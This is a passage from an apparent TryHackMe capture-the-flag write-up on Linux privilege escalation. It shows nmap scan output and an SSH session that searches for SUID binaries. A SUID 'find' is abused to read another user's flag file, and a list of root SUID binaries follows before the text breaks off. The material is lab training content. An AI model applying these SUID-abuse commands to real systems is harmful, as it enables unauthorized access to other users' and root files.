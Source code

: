 ```
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   28.71 ms 10.8.0.1
2   28.93 ms 10.10.178.163

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.16 seconds
```

`65534`

2. Find and run a file as igor. Read the file /home/igor/flag1.txt

```
ssh holly@10.10.178.163 -p 65534

holly@ip-10-10-178-163:~$ find / -user igor -perm -4000 -exec ls -ldb {} \; 2> /dev/null
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
-rwsr-xr-x 1 igor igor 2770528 Mar 31  2016 /usr/bin/nmap

holly@ip-10-10-178-163:~$ find foo -exec cat /home/igor/flag1.txt \;
THM{V0N318*****d3f0708bdd9accda7f937d013eaf2cd8}
```

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

```
holly@ip-10-10-178-163:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Aug 23  2019 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40152 Aug 23  2019 /bin/mount
-rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7396/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7396/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7396/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7396/bin/su
-rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7396/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7396/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7396/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7396/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7396/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7396/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /snap/core/7396/usr/bin/sudo
-rwsrwxr-x 1 root root 8880 Dec  7  2019 /usr/bin/system-control
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newgidmap
```